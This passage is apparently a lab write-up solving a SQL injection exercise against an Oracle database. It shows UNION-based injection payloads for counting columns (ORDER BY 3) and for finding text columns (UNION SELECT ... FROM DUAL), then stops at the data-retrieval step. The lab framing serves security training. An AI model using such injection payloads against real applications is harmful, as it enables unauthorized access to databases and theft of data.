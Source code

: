 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :


> NOTE -  On Oracle databases, every `SELECT` statement must **specify a table to select FROM**. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
>
>There is a built-in table on Oracle called **dual** which you can use for this purpose. 
>
> For example: `UNION SELECT 'abc' FROM dual`

#### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234492107-acad89e0-9e01-4c0e-aab3-17c4f3ab8c0b.png)

#### Determine column with text data

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' FROM DUAL--
```

![image](https://user-images.githubusercontent.com/67383098/234493878-4160908e-fddd-4269-a091-395850b55e44.png)

#### Retreive data from ORACLE db -

